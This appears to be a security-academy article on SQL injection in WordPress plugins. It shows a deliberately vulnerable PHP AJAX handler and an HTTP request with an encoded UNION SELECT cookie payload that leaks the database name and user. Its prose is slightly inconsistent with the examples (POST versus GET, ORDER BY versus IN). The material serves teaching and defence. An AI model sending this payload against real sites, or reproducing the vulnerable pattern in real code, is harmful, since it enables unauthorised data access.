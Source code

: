 ```yaml
---
title: SQL Injection (SQLi)
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible SQLi on WordPress. This includes improper usage of functions and user input handling inside of the plugin/theme which can be used to inject a malicious query into the SQL execution to leak sensitive data.

<LinkCard
  title="Learn how to secure your code against SQL Injection"
  href="/academy/wordpress/securing-code/sql-injection/"
/>


## Useful Functions

Several functions could be useful to identify a possible SQLi vulnerability:

- [`$wpdb->query`](https://developer.wordpress.org/reference/classes/wpdb/query/)
- [`$wpdb->get_var`](https://developer.wordpress.org/reference/classes/wpdb/get_var/)
- [`$wpdb->get_row`](https://developer.wordpress.org/reference/classes/wpdb/get_row/)
- [`$wpdb->get_col`](https://developer.wordpress.org/reference/classes/wpdb/get_col/)
- [`$wpdb->get_results`](https://developer.wordpress.org/reference/classes/wpdb/get_results/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_load_questions", "load_questions");

function load_questions(){
    global $wpdb;

    $quiz_id = $_GET["quiz_id"];

    if ( isset($_COOKIE[ 'question_ids_'.$quiz_id ]) ) {
        $question_sql = sanitize_text_field( wp_unslash( $_COOKIE[ 'question_ids_'.$quiz_id ] ) );
    }else {
        $question_ids = array("1","2","3");
        $question_sql = implode( ',', $question_ids );
    }
    
    $order_by_sql = 'ORDER BY FIELD(question_id,'.$question_sql.')';

    $query     = $wpdb->prepare( "SELECT * FROM {$wpdb->prefix}custom_questions WHERE question_id IN (%1s)", $question_sql);
    $questions = $wpdb->get_results( stripslashes( $query ) );

    wp_send_json($questions);
}
```

The vulnerable variable, in this case, is the `$question_sql` variable where the value is passed from `$_COOKIE[ 'question_ids_'.$quiz_id ]` value without proper sanitization or escaping. The `sanitize_text_field` function is not enough to prevent SQL Injection since the `$question_sql` variable is constructed inside an ORDER BY clause without proper escaping.

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed action and parameter to trigger the SQL Injection (let's say that the `{$wpdb->prefix}custom_questions` table has 5 columns):

```http
GET /wp-admin/admin-ajax.php?action=load_questions&quiz_id=1 HTTP/1.1
Host: localhost
Cookie: question_ids_1=1%29%20and%20false%20union%20select%20database%28%29%2C%271337%27%2C%271337%27%2Cuser%28%29%2C%271337%27%20--%20-%20
Connection: close

```

Below are some of the findings related to SQLi:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Critical SQL Injection Found in Porto Theme's Plugin](https://patchstack.com/articles/critical-sql-injection-found-in-porto-themes-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Unauthenticated SQL Injection in Quiz And Survey Master \<= 8.1.4](https://patchstack.com/articles/critical-unauthenticated-sql-injection-in-quiz-and-survey-master/)
- [Multiple Vulnerabilities Fixed In WP Statistics Plugin Version \<= 13.2.10](https://patchstack.com/articles/multiple-authenticated-sql-injection-fixed-in-wp-statistics-plugin-version-13-2-10/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)